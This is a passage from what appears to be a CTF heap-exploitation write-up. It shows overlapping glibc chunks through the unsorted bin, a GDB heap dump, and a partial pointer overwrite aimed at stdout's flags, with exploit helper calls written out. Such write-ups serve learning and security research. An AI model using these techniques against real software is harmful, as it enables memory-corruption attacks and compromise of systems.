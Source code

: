 It shows we have 4 allocated chunks, this shows that the `chunk[1]` and the `chunk[2]` and the `chunk[3]` now is within the `unsorted` bin chunk. It overlaps the chunks contigously laid out. So, now we will `free` the `chunk[1]` and the `chunk[3]`:-

```py
free(1)
free(3)
```

Checking the bins and the heap chunks layout:-


```asm
gef➤  x/400xg 0x5623a643c250
0x5623a643c250:	0x0000000000000000	0x0000000000000ad1
0x5623a643c260:	0x00007fda26360ca0	0x00007fda26360ca0
0x5623a643c270:	0x0000000000000000	0x0000000000000000

             [..snip..]

0x5623a643c750:	0x0000000000000500	0x0000000000000070
0x5623a643c760:	0x0000000000000000	0x00005623a643c010
0x5623a643c770:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c780:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c790:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c7a0:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c7b0:	0xdadadadadadadada	0xdadadadadadadada
0x5623a643c7c0:	0x0000000000000000	0x0000000000000041
0x5623a643c7d0:	0x6161616161616161	0x0000000000000000
0x5623a643c7e0:	0x0000000000000000	0x0000000000000000
0x5623a643c7f0:	0x0000000000000000	0x0000000000000000
0x5623a643c800:	0x0000000000000000	0x0000000000000021
0x5623a643c810:	0x0000000000000000	0x00005623a643c010
0x5623a643c820:	0xdadadadadadadada	0x0000000000000500
0x5623a643c830:	0xdadadadadadadada	0xdadadadadadadada

             [..snip..]

0x5623a643cd20:	0x0000000000000ad0	0x0000000000000020
0x5623a643cd30:	0x6161616161616161	0x0000000000000000
0x5623a643cd40:	0x0000000000000000	0x00000000000202c1
```

Now, if we do pay attention the `chunk[1]` and the `chunk[3]` which we `free`'d a moment ago is within the chunk we `free`'d with the extended size, resulting in the overlap. Now, we will just allocate a chunk of size `0x4f0` giving the chunk `0x500` from the `unsorted` bin and then again allocating a chunk of size `0x90` and this time, we will get a chunk from the `unsorted` bin, since the given chunk will have it's `fd` and `bk` populated with the `main_arena`, we will attempt to write the last 4 bits of the `fd` address such that it would point to the `_IO_2_1_stdout->flags`:-


```py
add(0x4f0,"a")

# partial overwrite to stdout->_flags

add(0x90,b"\x60\x07",0)
```
